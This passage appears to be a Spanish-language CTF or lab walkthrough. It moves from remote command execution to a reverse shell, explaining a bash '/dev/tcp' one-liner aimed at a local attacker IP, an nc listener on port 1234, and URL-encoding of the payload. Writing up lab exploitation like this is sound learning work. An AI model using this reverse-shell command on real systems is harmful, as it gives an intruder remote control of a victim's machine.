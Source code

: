 >Ya tenemos Ejecución Remota De Comandos  ╰(*°▽°*)╯
>Vamos a por una Reverse Shell sin mas, para ello podemos usar la web [Revshell](https://www.revshells.com/) o usar el típico:

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"
```

>Primero, debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 1234 con “nc”:

![\1](/Attachments/Pasted%20image%2020250516163600.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 1234

>Ya en escucha, ejecutamos el payload desde la web:

![\1](/Attachments/Pasted%20image%2020250516163759.png)
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Y recibimos una Reverse Shell :3

![\1](/Attachments/Pasted%20image%2020250516163928.png)
 